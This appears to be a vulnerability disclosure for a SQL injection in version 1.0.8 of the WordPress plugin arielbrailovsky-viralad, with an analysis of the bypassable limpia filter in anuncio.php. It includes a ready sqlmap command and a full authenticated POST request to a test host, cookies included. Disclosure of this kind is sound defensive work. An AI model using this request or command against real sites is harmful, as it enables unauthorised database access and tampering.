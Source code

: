 ### The data update interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: update records

**Injection parameters**: id

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=88&text=123ssss&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.384170610408046&security=2vnxf31d4hetw6ubkp75]

#### 1.Vulnerability analysis

n the anuncio.php file, when the request method is post and the request parameter action is empty, the incoming ID will be directly obtained and processed by the limpia function. If the database contains the record, it will be directly spliced into the update sql statement to perform the record update operation.

![image-20250302203537209](assets/image-20250302203537209.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as case, keyword replacement, blind injection, etc.).

![image-20250302203644793](assets/image-20250302203644793.png)

Therefore, attackers can easily construct malicious sql injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 234
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=88&text=123ssss&url=http%3A%2F%2F123&active=0&priority=5&ffamily=Arial&fsize=11&fcolor=%230f0f0f&bgcolor=%23f0f0f0&bdcolor=%23555555&talign=left&fitalic=1&funderline=0&fbold=0&nocache=0.384170610408046&security=2vnxf31d4hetw6ubkp75
```

![image-20250302203406959](assets/image-20250302203406959.png)
